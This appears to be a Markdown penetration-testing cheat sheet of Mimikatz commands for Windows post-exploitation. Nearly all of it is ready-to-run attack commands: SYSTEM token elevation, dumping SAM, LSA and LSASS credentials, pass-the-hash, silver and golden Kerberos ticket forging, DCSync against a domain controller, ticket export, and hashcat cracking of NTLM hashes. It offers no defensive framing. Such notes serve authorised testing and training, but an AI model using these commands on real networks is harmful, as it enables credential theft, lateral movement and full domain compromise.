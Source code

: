 # Dumping with Mimikatz

## Mimikatz

### NTLM Hash

Post exploitation commands must be executed from SYSTEM level privileges.

* mimikatz # privilege::debug
* mimikatz # token::whoami
* mimikatz # token::elevate
* mimikatz # lsadump::sam
* mimikatz # sekurlsa::logonpasswords

Execute Mimikatz as Administrator:

```
.\mimikatz.exe
```

Enable the SEDebugPrivilege access right required to tamper with another process:

```
privilege::debug
```

LSASS is a SYSTEM process so we need to elevate the security token from High Integrity to SYSTEM Integrity:

```
token::elevate
```

Dump the information of the SAM database:

```
lsadump::sam
```

We're interested in the NTLM hashes.

### Pass The Hash

* mimikatz # sekurlsa::pth /user:username /domain:domain.tld /ntlm:ntlm\_hash

### Inject generated TGS key

* mimikatz # kerberos::ptt&#x20;

### Generating a Silver Ticket

AES 256 Key:

* mimikatz # kerberos::golden /domain:/sid: /aes256: /user: /service: /target:

AES 128 Key:

* mimikatz # kerberos::golden /domain:/sid: /aes128: /user: /service: /target:

NTLM:

* mimikatz # kerberos::golden /domain:/sid: /rc4: /user: /service: /target:

### Generating a Golden Ticket

AES 256 Key:

* mimikatz # kerberos::golden /domain:/sid: /aes256: /user:

AES 128 Key:

* mimikatz # kerberos::golden /domain:/sid: /aes128: /user:

NTLM:

* mimikatz # kerberos::golden /domain:/sid: /rc4: /user:

### DCSync

DCSync with mimikatz:

```bash
lsadump::dcsync /user:administrator /domain:htb.local /dc:sizzle
```

### Service Tickets

> Other hash dumping tools: `pwdump`,[`fgdump`](http://foofus.net/goons/fizzgig/fgdump/downloads.htm),[**Windows Credential Editor**](https://www.ampliasecurity.com/research/windows-credentials-editor/) (`wce`) for older versions of Windows

* ask for **SeDebugPrivilege** in order to interact with the LSASS process and processes owned by other accounts (to be executed as administrator):

```
mimikatz # privilege::debug
Privilege '20' OK
```

* elevate the security token from high integrity (administrator) to SYSTEM integrity (not needed if `mimikatz` is launched from a SYSTEM shell)

```
mimikatz # token::elevate
```

* dumping all password hashes:

```
mimikatz # lsadump::sam
```

* dumping NTLM password hashes:

```
mimikatz # lsadump::lsa /patch
```

* Cracking them with `hashcat` (or [Pass-The-Hash](https://github.com/amirr0r/notes/blob/master/Infosec/boot2root-cheatsheet.md#%EF%B8%8F-post-exploitation-pivoting-and-lateral-movement) directly): `hashcat -m 1000 ntlm-hashes.txt <WORDLIST>`
* dumping the credentials of all logged-on users:

```
mimikatz # sekurlsa::logonpasswords
```

* dumping all service tickets of all logged-on users:

```
mimikatz # sekurlsa::tickets
```

* download service ticket:

```
mimikatz # kerberos::list /export
```
